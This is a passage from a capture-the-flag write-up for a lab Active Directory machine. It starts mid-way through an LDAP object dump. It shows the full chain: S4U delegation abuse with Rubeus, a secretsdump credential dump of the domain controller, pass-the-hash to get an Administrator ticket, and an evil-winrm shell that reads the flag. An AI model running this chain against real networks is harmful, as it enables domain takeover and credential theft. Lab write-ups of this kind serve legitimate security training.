    distinguishedName: CN=DC01,OU=Domain Controllers,DC=mirage,DC=htb
    accountExpires: 9999-12-31 23:59:59.999999+00:00
    badPasswordTime: 1601-01-01 00:00:00+00:00
    badPwdCount: 0
    cn: DC01
    codePage: 0
    countryCode: 0
    dNSHostName: dc01.mirage.htb
    dSCorePropagationData: 2025-05-01 07:42:23+00:00
    instanceType: 4
    isCriticalSystemObject: True
    lastLogoff: 1601-01-01 00:00:00+00:00
    lastLogon: 2025-07-23 04:52:35.368228+00:00
    lastLogonTimestamp: 2025-07-22 23:06:21.796886+00:00
    localPolicyFlags: 0
    logonCount: 681
    memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=mirage,DC=htb; CN=Cert Publishers,CN=Users,DC=mirage,DC=htb
    msDFSR-ComputerReferenceBL: CN=DC01,CN=Topology,CN=Domain System Volume,CN=DFSR-GlobalSettings,CN=System,DC=mirage,DC=htb
    msDS-AllowedToActOnBehalfOfOtherIdentity: O:S-1-5-32-544D:(A;;0xf01ff;;;S-1-5-21-2127163471-3824721834-2568365109-1109)
    msDS-GenerationId: 7P4U37a/OUw=
    msDS-SupportedEncryptionTypes: 28
    nTSecurityDescriptor: O:S-1-5-21-2127163471-3824721<snip>68365109-519)(A;CIID;LC;;;S-1-5-32-554)(A;CIID;0xf01bd;;;S-1-5-32-544)
    name: DC01
    objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=mirage,DC=htb
    objectClass: top; person; organizationalPerson; user; computer
    objectGUID: cf5a05d3-5ca4-42f6-b00b-e352e61e11e5
    objectSid: S-1-5-21-2127163471-3824721834-2568365109-1000
    operatingSystem: Windows Server 2022 Standard
    operatingSystemVersion: 10.0 (20348)
    primaryGroupID: 516
    pwdLastSet: 2025-06-19 10:50:21.295776+00:00
    rIDSetReferences: CN=RID Set,CN=DC01,OU=Domain Controllers,DC=mirage,DC=htb
    sAMAccountName: DC01$
    sAMAccountType: 805306369
    serverReferenceBL: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=mirage,DC=htb
    servicePrincipalName: Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/dc01.mirage.htb; ldap/dc01.mirage.htb/ForestDnsZones.mirage.htb; ldap/dc01.mirage.htb/DomainDnsZones.mirage.htb; DNS/dc01.mirage.htb; GC/dc01.mirage.htb/mirage.htb; RestrictedKrbHost/dc01.mirage.htb; RestrictedKrbHost/DC01; RPC/9e3773da-cab7-4575-9671-1aa5524ba345._msdcs.mirage.htb; HOST/DC01/MIRAGE; HOST/dc01.mirage.htb/MIRAGE; HOST/DC01; HOST/dc01.mirage.htb; HOST/dc01.mirage.htb/mirage.htb; E3514235-4B06-11D1-AB04-00C04FC2DCD2/9e3773da-cab7-4575-9671-1aa5524ba345/mirage.htb; ldap/DC01/MIRAGE; ldap/9e3773da-cab7-4575-9671-1aa5524ba345._msdcs.mirage.htb; ldap/dc01.mirage.htb/MIRAGE; ldap/DC01; ldap/dc01.mirage.htb; ldap/dc01.mirage.htb/mirage.htb
    uSNChanged: 160009
    uSNCreated: 12293
    userAccountControl: SERVER_TRUST_ACCOUNT; TRUSTED_FOR_DELEGATION
    userCertificate: MIIF1zCCBL+gAwIBAgITSQAAAAKdYYwFRv00yAAAAAAAAjAN<snip>3sg49bCk=
    whenChanged: 2025-07-23 05:22:30+00:00
    whenCreated: 2025-05-01 07:42:23+00:00


Unfortunately we cannot get the Administrator account with this delegation as the bits for NOT_DELEGATED are set on the user directly.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object Administrator
```

    
    distinguishedName: CN=Administrator,CN=Users,DC=mirage,DC=htb
    accountExpires: 1601-01-01 00:00:00+00:00
    adminCount: 1
    badPasswordTime: 2025-07-14 16:17:45.326444+00:00
    badPwdCount: 0
    cn: Administrator
    codePage: 0
    countryCode: 0
    dSCorePropagationData: 2025-05-01 08:09:46+00:00
    description: Built-in account for administering the computer/domain
    instanceType: 4
    isCriticalSystemObject: True
    lastLogoff: 1601-01-01 00:00:00+00:00
    lastLogon: 2025-07-23 06:44:22.531092+00:00
    lastLogonTimestamp: 2025-07-23 06:44:13.741444+00:00
    logonCount: 3332
    logonHours: ////////////////////////////
    memberOf: CN=Group Policy Creator Owners,CN=Users,DC=mirage,DC=htb; CN=Domain Admins,CN=Users,DC=mirage,DC=htb; CN=Enterprise Admins,CN=Users,DC=mirage,DC=htb; CN=Schema Admins,CN=Users,DC=mirage,DC=htb; CN=Administrators,CN=Builtin,DC=mirage,DC=htb
    msDS-SupportedEncryptionTypes: 0
    nTSecurityDescriptor: O:S-1-5-21-2127163471-38<snip>)(A;;0xf01ff;;;S-1-5-18)
    name: Administrator
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=mirage,DC=htb
    objectClass: top; person; organizationalPerson; user
    objectGUID: 047a19a0-8341-4903-b233-8860ff560eef
    objectSid: S-1-5-21-2127163471-3824721834-2568365109-500
    primaryGroupID: 513
    pwdLastSet: 2025-06-23 21:18:18.819012+00:00
    sAMAccountName: Administrator
    sAMAccountType: 805306368
    uSNChanged: 159796
    uSNCreated: 8196
    userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; NOT_DELEGATED
    userPrincipalName: Administrator@mirage.htb
    whenChanged: 2025-07-23 06:44:13+00:00
    whenCreated: 2025-05-01 07:41:37+00:00


However, we can simply generate the credentials we need to authenticate as the domain controller.

```sh
> ./Rubeus.exe s4u /user:mirage-service$ /rc4:305806d84<snip>c7866 /impersonateuser:dc01$ /msdsspn:"HOST/dc01.mirage.htb" /ptt /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: S4U

[*] Using rc4_hmac hash: 305806d84<snip>c7866
[*] Building AS-REQ (w/ preauth) for: 'mirage.htb\mirage-service$'
[*] Using domain controller: fe80::4f5c:3e49:2490:9d8d%7:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFnDCCBZigAwIBBaEDAgEW<snip>>GwptaXJhZ2UuaHRi


[*] Action: S4U

[*] Building S4U2self request for: 'mirage-service$@MIRAGE.HTB'
[*] Using domain controller: dc01.mirage.htb (fe80::4f5c:3e49:2490:9d8d%7)
[*] Sending S4U2self request to fe80::4f5c:3e49:2490:9d8d%7:88
[+] S4U2self success!
[*] Got a TGS for 'dc01$' to 'mirage-service$@MIRAGE.HTB'
[*] base64(ticket.kirbi):

      doIFkjCCBY6gAwIBBaEDAgEWoo<snip>>9taXJhZ2Utc2VydmljZSQ=

[*] Impersonating user 'dc01$' to target SPN 'HOST/dc01.mirage.htb'
[*] Building S4U2proxy request for service: 'HOST/dc01.mirage.htb'
[*] Using domain controller: dc01.mirage.htb (fe80::4f5c:3e49:2490:9d8d%7)
[*] Sending S4U2proxy request to domain controller fe80::4f5c:3e49:2490:9d8d%7:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'HOST/dc01.mirage.htb':

      doIGNjCCBjKgAwIBBaEDAgEWooIFUTCCBU1hgg<snip>>lqoDBsKTUlSQUdFLkhUQqkiMCCgAwIBAqEZMBcbBEhPU1QbD2RjMDEubWlyYWdlLmh0Yg==
[+] Ticket successfully imported!

```

With this kirbi, we can now convert it to a ccache by echoing it into base64 -d and then using `ticketConverter.py` to convert it to a ccache.

```sh
 ticketConverter.py dc01.kirbi dc01.ccache
```

Finally we can use this ccache to do a secretsdump against the domain controller to get all authenticated credentials stored on the system.

```sh
 KRB5_CONFIG=./krb5.conf KRB5CCNAME=./dc01.ccache secretsdump.py -k -no-pass dc01.mirage.htb
/home/tokugero/ctf/htb/season8/week10-mirage/.venv/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
mirage.htb\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7be6d4f3c2b<snip>afb3:::
...
[*] Cleaning up... 
```


And to close out the vulnerability, we can take the hash we found, do one final getTGT and log into the system to grab the flag.


```python
!getTGT.py -hashes :7be6d4f3c2b<snip>afb3 mirage.htb/administrator
```

    /home/tokugero/ctf/htb/season8/week10-mirage/.venv/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
      import pkg_resources
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [*] Saving ticket in administrator.ccache

```sh
 KRB5_CONFIG=./krb5.conf KRB5CCNAME=./administrator.ccache evil-winrm -i dc01.mirage.htb -r MIRAGE.HTB         
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
5d0bdb0cb2facb4f9db9693e727ad8f8
```